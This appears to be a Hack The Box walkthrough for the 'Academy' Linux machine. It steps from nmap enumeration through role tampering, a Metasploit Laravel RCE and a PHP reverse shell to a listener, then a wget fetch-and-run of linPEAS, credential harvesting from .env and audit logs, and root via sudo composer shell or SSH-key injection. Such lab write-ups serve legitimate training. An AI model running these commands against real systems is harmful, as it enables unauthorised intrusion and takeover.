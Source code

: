 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🌐 Network Scanning

```bash
nmap -p- -T4 -A 10.10.10.215
```

Edit `/etc/hosts`:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb
```

---

## 📁 Enumeration

### [HTTP](HTTP.md) (Port 80)

```bash
gobuster dir --url http://academy.htb/ -w /usr/share/wordlists/dirb/common.txt
```

- Discovered: `admin.php`
- Registered an account on the site
- Intercepted POST with Burp Suite and modified:

```http
POST /register
...
roleid=1
```

Access:

```http
http://academy.htb/admin.php
```

From the admin panel, discovered subdomain:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb dev-staging-01.academy.htb
```

---

## 💥 Exploitation

### Laravel RCE (CVE-2018–15133)

Check Laravel version hint from `.env` at `dev-staging-01.academy.htb`:

```bash
# Manually visit:
http://dev-staging-01.academy.htb
```

Run Metasploit:

```bash
msfconsole
search laravel

use exploit/unix/http/laravel_token_unserialize_exec
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.10.10.215
set VHOST dev-staging-01.academy.htb
set LHOST <your-tun0-IP>
run
```

Spawn TTY shell:

```bash
/usr/bin/php -r '$sock=fsockopen("10.10.16.9",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🧑‍💻 User: `cry0l1t3`

### Find .env file & Password

```bash
find / -type f -name .env 2>/dev/null
cat /var/www/html/academy/.env
# or
cat /var/www/html/htb-academy-dev-01/.env
```

Discovered credentials:

```plaintext
mySup3rP4s5w0rd!!
```

Login as `cry0l1t3` via SSH:

```bash
ssh cry0l1t3@10.10.10.215
id
cat user.txt
```

---

## 🧑 User: `mrb3n`

### Enumerate with linPEAS

On Kali:

```bash
cd ~/Downloads
python3 -m http.server 8000
```

On target:

```bash
cd /tmp
wget http://10.10.16.9:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Find credentials manually:

```bash
cd /var/log/audit
cat * | grep 'comm="su"'
# Extract the HEX from `data=` and decode to ASCII
```

Switch to user:

```bash
su mrb3n
# Password: mrb3n_Ac@d3my!
```

---

## 👑 Privilege Escalation to Root

### Sudo Check

```bash
sudo -l
```

Output:

```
(mrb3n) NOPASSWD: /usr/bin/composer
```

### GTFOBins: Composer to Root

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Alternative (SSH Key Drop):

```bash
TF=$(mktemp -d)
echo '{"scripts":{"ssh":"echo 'ssh-ed25519 AAAA...yourkey... user@host' >> /root/.ssh/authorized_keys"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script ssh

# Then from Kali:
ssh -i ~/.ssh/id_rsa root@10.10.10.215
```

### Read Root Flag

```bash
cd /root
cat root.txt
```

---

## ✅ Summary

| Stage            | User         | Method                                             |
|------------------|--------------|----------------------------------------------------|
| Foothold         | `www-data`   | Laravel RCE + admin role bypass                    |
| User             | `cry0l1t3`   | `.env` file password reuse                         |
| Lateral Movement | `mrb3n`      | Audit log credential leak (linPEAS or manual grep) |
| Root             | `root`       | Composer abuse (GTFOBins)                          |
